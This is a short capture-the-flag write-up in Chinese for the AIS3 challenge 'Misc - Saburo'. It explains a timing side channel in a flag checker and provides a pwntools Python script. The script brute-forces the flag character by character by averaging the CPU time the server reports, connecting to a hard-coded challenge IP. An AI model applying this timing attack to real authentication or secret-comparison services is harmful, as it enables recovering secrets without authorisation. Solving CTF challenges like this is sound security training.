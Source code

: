 ### Misc - Saburo

連上去，伺服器提示`Flag:`讓你輸入，然後會跑出cpu時間，拿flag的開頭`AIS3{`去試，很明顯時間跟前面對了幾個字元直接相關，只是每個字元時間都會有不少誤差，要試多次取平均。

直接上python：

```python
from pwn import *
import os

context.log_level = 'warning'
known = "AIS3{" 

chrs = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890_}"

while True:
    c=0
    prev = 0
    st = "\n"
    while c<len(chrs):
        
        avg = 0
        log.warning(f'Trying {known+chrs[c]}')
        for i in range(15):
            print(i,end='')
            p = remote("60.250.197.227", 11001)
            p.recvuntil('Flag: ')
            p.sendline(known+chrs[c])
            s = p.recvline()
            avg += int(s[18:-14])
            p.close()

        avg = avg
        print(f'  avg time={avg}')
        st += f'{chrs[c]}: {avg}\n'
        flag=0
        if avg > prev:
            flag=1
            prev = avg
            largeind = c
        
        c+=1
        
    print(st)
    log.warning(f'largest char: {chrs[largeind]}, time={prev}')
    ans = input('Enter char, or left empty to use largest: ')
    ans = ans.strip('\n')
    if ans=="":
        known += chrs[largeind]
        log.warning(f'new char: [{chrs[largeind]}], time={prev}')
    else:
        known += ans
        log.warning(f'new char: {ans}')

    if known[-1] == '}':
        break

print(known)
```
